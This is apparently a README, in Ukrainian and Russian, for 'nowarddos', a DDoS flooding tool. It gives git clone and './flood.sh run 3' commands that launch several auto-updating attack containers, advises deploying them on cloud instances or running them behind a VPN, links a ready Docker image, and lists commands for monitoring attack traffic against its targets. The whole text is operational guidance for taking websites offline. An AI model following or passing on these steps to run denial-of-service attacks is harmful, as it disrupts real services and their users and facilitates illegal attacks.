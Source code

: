 ‼️ Останнє оновлення - 9.03, 14-20
https://gitlab.com/a_gonda/nowarddos.git

‼️Для оновлення до версії від 9.03: навіть якщо до того було включено автооновлення - зараз все ж треба буде поставити нову версію руцями. Сорі, працюємо, щоб такого надалі не траплялося.

Алгоритм оновлення зараз наступний:
1. зупитяємо контейнери
2. видаляємо усю папку (запускати з папки, где скрипт): cd .. && rm -rf nowarddos
3. далі - як в інструкції: git clone https://gitlab.com/a_gonda/nowarddos.git && \
   cd nowarddos/ && \
   ./flood.sh run 3

🧨 Докер, розгортка на НОВОМУ інстансі в хмарі - TL;DR (перевірено на digital ocean):
git clone https://gitlab.com/a_gonda/nowarddos.git && \
cd nowarddos/ && \
./flood.sh run 3 <- запускає 3 контейнери з автоапдейтом та авторестартом

⚡️Новость от 08.03, 12-30 -> тестируем простой вариант исполнения в облаке. Детали тут: https://t.me/c/1617331726/13450

🤷‍♀️Для запуска локально: рекомендуется vpn, для облака - не обязательно. Можно запускать через докер (рекомендуемый способ: в облаке скорость как правильно может быть выше, и вы не будете нагружать каналы местного провайдера, которые могут быть нужны другим людям) или напрямую файл main.py -> без дополнительных параметров.

Также можно скачать готовые образы для докера: registry.gitlab.com/a_gonda/nowarddos:latest

Скрипт имеет свою команду запуска: flood.sh, которая принимает параметры.

Вывести все доступные команды для скрипта:
Находясь в папке со скриптом (в данном случае это /root/nowarddos):
./flood.sh . -> выводит

run {кількість контейнерів. Зараз - це рекомендована команда. Контейнери буде запущено, та вони будуть автоматично перевантажуватися та оновлятися. Приклад запуску: ./flood.sh run 3}
status
log
net
stop

1). run -> написано выше. Пример: ./flood.sh run 3
2). status -> выводит статус, сколько контейнеров запущено. Пример: ./flood.sh status
3). log -> выводит лог первого запущенного контейнера. Пример: ./flood.sh logs
4). net -> показывает текущий трафик через nload eth0. Пример ./flood.sh logs net
5). stop -> останавливает запущенные контейнеры. Пример ./flood.sh stop

Примечание: скорость  очень зависит от текущих таргетов, чем медленее сайты работают, тем скорость будет меньше. Чем больше их лежит - тем скорость тоже
может быть меньше